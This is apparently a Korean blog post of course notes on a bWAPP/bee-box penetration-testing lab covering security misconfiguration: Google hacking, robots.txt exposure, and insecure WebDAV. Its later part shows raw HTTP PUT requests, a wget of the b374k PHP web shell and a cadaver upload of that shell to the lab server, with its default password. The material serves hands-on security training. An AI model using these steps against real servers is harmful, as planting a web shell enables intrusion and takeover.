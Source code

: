 ```yaml
---
layout: post
title: "비박스를 활용한 웹 모의해킹 완벽 실습 - 보안 설정 오류(구글 해킹, Robots.txt, WebDav)"
excerpt_separator:  <!--more-->
categories:
 - WebHack
tags:
  - 웹 해킹
  - 인프런
  - Part5 A5
  - 보안 설정 오류
---
```


<!--more-->

# 출처

## 인프런, 비박스를 활용한 웹 모의해킹 완벽 실습 17강 <https://www.inflearn.com/course/%EB%B9%84%EB%B0%95%EC%8A%A4-%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9-%EC%8B%A4%EC%8A%B5/>

---

## 보안 설정 오류

### Exploit-DB GHDB

* 구글 검색으로 취약점을 찾을 수 있는 데이터 베이스
* [Google Hacking Database](https://www.exploit-db.com/google-hacking-database/)
* Robots.txt: 구글 검색을 위한 파일이며 구글의 검색 허용 범위를 지정
* 관리자 페이지처럼 중요한 정보를 노출시킬 수도 있음

## Robots 파일 내 중요한 정보 노출

* 웹사이트 운영 시 원하지 않는 중요한 컨텐츠가 구글 등 각종 검색엔진에 의해 노출
* 검색엔진 로봇이 사이트에 접근하는 것을 제한하거나 허용하기 위해 웹사이트의 최상위 디렉토리에 특정한 설정 파일을 만듦
* 어떠한 컨텐츠에 대해서도 각종 봇의 접근이나 색인(index) 거부

|형식|설명|
|:----:|:----:|
|User-agent|검색 로봇을 설정하는 항목으로 *는 모든 로봇을 의미|
|Allow:/폴더명/|해당 폴더에 대한 접근을 허용|
|Disallow:/폴더명/|해당 폴더에 대한 접근을 거부|

---

## Robots File

![image](https://user-images.githubusercontent.com/28076542/52756444-b4c17f00-3044-11e9-954b-97bf7a25f648.png)

* URL: `192.168.190.143/bWAPP/robots.txt`에 들어가면 robots.txt 내용 확인 가능

### 192.168.190.143/bWAPP/robots.txt

```bash
User-agent: GoodBot
Disallow:

User-agent: BadBot
Disallow: /

User-agent: *
Disallow: /admin/
Disallow: /documents/
Disallow: /images/
Disallow: /passwords/
```

* URL 뒤에 각 항목을 넣어 들어가보면 민감한 자료가 존재

---

## Insecure WebDAV Configuration

![image](https://user-images.githubusercontent.com/28076542/52758880-4fbe5700-304d-11e9-9b38-6ed3e8b6b9e9.png)

* 이런게 있는데 어차피 요즘은 잘 안 쓴다고 함
* `put` 메소드가 제일 위험 --> 업로드 취약점

### URL로 접속한 WebDAV 창 확인

![image](https://user-images.githubusercontent.com/28076542/52759363-ed665600-304e-11e9-8885-15c4eff3af11.png)

### Bee-Box에서 /etc/apache2/httpd.conf

```bash
ExtendedStatus On
<Location /server-status>
 SetHandler server-status
 Order deny,allow
 Allow from all
</Location>

# Allows WebDAV, not secure!!!
Alias /webdav /var/www/bWAPP/documents
<Location /webdav>
 DAV On
</Location>
```

* 주석에서도 안전하지 않다고 써 있음

### WebDAV 동작 확인 방법

* 해당 사이트에 접속 후 BurpSuite 실행
* OPTIONS를 넣고 기타 항목은 지우기
* HTTP history에서 Response 확인

### BurpSuite Raw에 넣은 메시지

```bash
OPTIONS /webdav/ HTTP/1.1
Host: 192.168.190.143
```

### BurpSuite로 WebDAV 동작확인

![image](https://user-images.githubusercontent.com/28076542/52759410-1686e680-304f-11e9-84d0-86b5a4585104.png)

![image](https://user-images.githubusercontent.com/28076542/52759693-27842780-3050-11e9-8fce-56948af4d80b.png)

* **Allow** 항목에 옵션들이 나타남

### BurpSuite에 PUT 메시지 삽입

```bash
PUT /webdav/test.txt HTTP/1.1

Host: 192.168.190.143

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Cookie: security_level=0; PHPSESSID=a44428958e332ff8c9355498af8ef26c

Connection: close

Upgrade-Insecure-Requests: 1



test1234
```

### WebDAV PUT 메시지 결과

![image](https://user-images.githubusercontent.com/28076542/52759807-9d888e80-3050-11e9-8d67-8f7feb77e7dc.png)

![image](https://user-images.githubusercontent.com/28076542/52760002-4800b180-3051-11e9-914d-4a9a0a0654cb.png)

---

## b374k

* PHP 환경에서 사용할 수 있는 웹쉘
* 웹쉘: 웹에서 사용할 수 있는 쉘 ㅎㅎ
* [b374k](https://github.com/tennc/webshell/tree/master/php/b374k)
* b374k-3.2.2.php를 사용할 것

### 칼리리눅스 터미널에 b374k 설치

```bash
root@ming:~# cd ~
root@ming:~# wget https://raw.githubusercontent.com/tennc/webshell/master/php/b374k/b374k-3.2.2.php
--2019-02-14 12:17:45--  https://raw.githubusercontent.com/tennc/webshell/master/php/b374k/b374k-3.2.2.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.72.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.72.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 84267 (82K) [text/plain]
Saving to: ‘b374k-3.2.2.php’

b374k-3.2.2.php       100%[=========================>]  82.29K  --.-KB/s    in 0.08s   

2019-02-14 12:17:45 (1.04 MB/s) - ‘b374k-3.2.2.php’ saved [222039]
```

### cadaver 실행

* cadaver: 칼리리눅스에서 기본으로 지원하는 툴로 여러가지 http 메소드를 사용할 수 있게 제공

```bash
root@ming:~# cadaver http://192.168.190.143/webdav/
dav:/webdav/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> put b374k-3.2.2.php 
Uploading b374k-3.2.2.php to `/webdav/b374k-3.2.2.php':
Progress: [=============================>] 100.0% of 222039 bytes succeeded.
dav:/webdav/> 
```

### WebDAV에 업로드 된 b374k

![image](https://user-images.githubusercontent.com/28076542/52760450-ee00eb80-3052-11e9-9478-fc07de796542.png)

* b374k-3.2.2.php를 클릭하고 비밀번호는 **b374k**

### b374k 실행 화면

![image](https://user-images.githubusercontent.com/28076542/52760511-1d175d00-3053-11e9-9078-f59fb8908b30.png)